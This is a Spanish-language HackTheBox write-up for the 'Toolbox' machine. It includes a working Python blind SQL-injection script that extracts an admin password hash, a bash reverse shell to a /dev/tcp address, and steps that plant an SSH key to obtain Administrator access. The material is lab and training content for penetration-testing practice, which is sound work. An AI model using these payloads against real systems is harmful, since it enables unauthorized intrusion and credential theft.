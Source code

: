 ```yaml
---
title: HackTheBox - Toolbox
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Default Credentials', 'SQL Injection, 'Docker Toolbox']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Toolbox/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Toolbox Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **Default Credentials, SQL Injection, Docker Toolbox**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Toolbox**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/HTB/Easy/Toolbox/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/HTB/Easy/Toolbox/02-versions.png)

  * Conseguimos un dominio **admin.megalogistic.com** el cual añadiremos al archivo **/etc/hosts**.
  * Vemos un fichero **docker-toolbox.exe** en el servicio FTP.

c. Visitamos el dominio **https://admin.megalogistic.com**

![](/assets/images/HTB/Easy/Toolbox/03-web.png)

* Aquí intentaremos una **inyección sql** y al momento de ingresar una sentencia incorrecta veremos un mensaje el cual nos dirá que base de datos se usa

  ![](/assets/images/HTB/Easy/Toolbox/04-db.png)

* Inyecciones SQL en [PostgreSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

* Automatizamos la inyección sql basada en error con **python** para obtener la contraseña del usuario **admin**

  * Basándonos en la lógica del script y la inyección previamente obtenemos el nombre actual de la base de datos **test**, una tabla **users** y sus columnas **username,password**

    ```python
    import requests
    import string
    from pwn import *
    import sys
    import signal
    import urllib3

    def exit_handler(sig, frame) -> None:
      print("[!] Exit")
      sys.exit(1)

    def get_currentdb() -> None:
      global_string = string.ascii_letters + string.digits + string.punctuation + ' '
      main_url = "https://admin.megalogistic.com/"

      bar_1 = log.progress("Brute Force")
      bar_1.status("Starting Brute Force...")
      bar_2 = log.progress("admin password")
      headers = {"Cookie" : "PHPSESSID=[Cambiar]", "Content-Type": "application/x-www-form-urlencoded"}
      password = ""
      lenght = 0
      for index in range(1,50):
        for character in global_string:
          data = {"username":f"admin'||(select case when substring(password,{index},1)='{character}' then 1/(select 0) else NULL end from users limit 1)-- -", "password": "admin"}
          bar_1.status(data["username"])
          r = requests.post(main_url, headers=headers, data=data, verify=False)
          if('division by zero in' in r.text):
            lenght += 1
            password += character
            bar_2.status(str(lenght) + ': ' + password)
            break

    if __name__ == "__main__":
      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
      signal.signal(signal.SIGINT, exit_handler)
      get_currentdb()
    ```


* Esta credencial está hasheada con **MD5**, la obtenemos en texto claro

  ```bash
  [>] Brute Force: admin'||(select case when substring(password,39,1)='C' then 1/(select 0) else NULL end from users limit 1)-- -
  [..../...] admin password: 42: 4a100a85cb5ca3616dcf137918550815
  
  dcode 4a100a85cb5ca3616dcf137918550815
  [+] Cracked MD5 Hash : iamzeadmin
  ```

d. Al autenticarnos estaremos en un **dashboard** en el que no vemos información relevante, con lo cual intentaremos ejecutar comandos con la inyección sql [RCE con PostreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)

* Usaremos el payload

  ![](/assets/images/HTB/Easy/Toolbox/05-payload.png)

* Levantamos un servidor con **python** y enviaremos la petición con **BurpSuite**

  ![](/assets/images/HTB/Easy/Toolbox/06-burp.png)

  > A pesar de ver una error en la ejecución del comando, nos llega la petición con el **output del comando** en base64 a nuestro servidor de python.


* Nos entablaremos una reverse shell, para esto nos ponemos en escucha previamente con **nc** y enviaremos la siguiente petición con **BurpSuite**

  * El payload usado es: **`bash -c "bash -i >& /dev/tcp/<tun0 IP>/443 0>&1"`**

    ![](/assets/images/HTB/Easy/Toolbox/07-reverse.png)

    ```bash
    nc -lvnp 443
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    ```

e. Vemos que estamos en un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255

postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

* Con la información reunida consultamos sobre **Boot2Docker** y **Docker-ToolBox**. Encontramos una forma de [autenticarnos en ssh](https://stackoverflow.com/questions/30330442/how-to-ssh-into-docker-machine-virtualbox-instance)

  ```bash
  postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
  docker@172.17.0.1's password: 
    ( '>')
    /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
  (/-_--_-\)           www.tinycorelinux.net

  docker@box:~$
  ```

### Escalada de Privilegios 💹

a. Exploramos este host

```bash
docker@box:/c/Users/Administrator$ ls -al                                      
total 1613
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Aug 28 15:13 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

* Encontramos un directorio **.ssh** en el que podemos meter nuestra clave pública **authorized_keys**

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ ls                                     
  authorized_keys  id_rsa           id_rsa.pub       known_hosts
  ```

* Generemos un par de claves en nuestra **Máquina Atacante**

  ```bash
  ❯ ssh-keygen
  ❯ ls
  id_rsa   id_rsa.pub
  ```

* Copiamos la clave **id_rsa.pub** en el archivo **authorized_keys** del host docker

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ echo -n 'id_rsa.pub' > authorized_keys
  ```

b. Ya con esto podemos acceder como **administrator** en el servicio SSH

```bash
root@kali~/.ssh> ssh administrator@10.10.10.236

Microsoft Windows [Version 10.0.17763.1039] 
administrator@TOOLBOX C:\Users\Administrator>
```